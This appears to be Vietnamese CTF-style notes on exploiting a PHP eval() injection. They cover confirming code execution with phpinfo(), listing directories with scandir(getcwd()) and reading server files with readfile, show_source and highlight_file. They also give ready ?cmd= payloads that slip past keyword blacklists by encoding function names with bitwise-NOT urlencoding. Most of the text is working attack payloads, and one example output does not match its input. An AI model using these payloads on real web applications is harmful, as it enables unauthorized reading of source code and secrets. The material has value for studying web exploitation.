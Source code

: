 # Bước 1 : Kiểm tra

`phpinfo(); `  => Thành công => eval( )

# Bước 2 : check các defined functions để xem all the functions
```php
var_dump(get_defined_functions())
```
=> Nếu NULL thì test để đọc all các dir hiện tại
```php
var_dump(scandir(getcwd())) 
```

=> Đầu ra có dạng giống :

`array(4) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) "index.php" [3]=> string(12) "phpinfo.php~" }`

# Bước 3: đọc file
```php
highlight_file(file_get_contents(end(scandir(getcwd()))));        #đọc file cuối mảng

readfile(next(scandir(getcwd())));                                #đọc file ở vị trí thứ 2 của mảng 

show_source(next(array_reverse(scandir(getcwd()))));              #đọc file ở vị trí thứ 3 của mảng bằng cách đaoả ngược mảng rồi => next 
```

- Bằng cách encode urlencode  bằng `~ ` phủ định chuỗi 
- Ví dụ encode mã : readfile("index.php")
```php
$a='readfile'
echo urlencode(~$a)
#=> %8D%9A%9E%9B%99%96%93%9A
# nếu ta ~%8D%9A%9E%9B%99%96%93%9A => readfile
$b='index.php'
echo urlencode(~$b)
#=>%96%91%9B%9A%87%D1%8F%97%8F
```

```php
#bypass blacklist " or keyword readfile
 ?cmd=(~%8D%9A%9E%9B%99%96%93%9A)(~%96%91%9B%9A%87%D1%8F%97%8F);
 ?cmd=readfile(~%96%91%9B%9A%87%D1%8F%97%8F);
```

## một vài lưu hàm có thể sử dụng 
`realpath, realpath_cache_get, domxpath, eio_realpath, gzpassthru, pack, get_include_path` 

=> Các hàm có thể in ra mảng và gtri của nó

`array_keys`
=> In ra all các key trong mảng : VÍ DỤ
```php
$array = array(0 => 100, "color" => "red");
print_r(array_keys($array));
#=> In ra out put là
Array
(
    [0] => 0
    [1] => flag
)
```
## ví dụ minh họa 

```php
readfile(end(array_keys(realpath_cache_get())))
```
=> hiện /path thư mục , vị trí mảng , key và kiểu dữ liệu của all các mảng  `realpath_cache_get( )`

=> Từ đó lấy ra các key của mảng `array_keys( )`

=> Và lấy key của mảng cuối cùng `end( )`

=> Sau đó đọc file qua key tên file đã đc lấy `readfile( )`





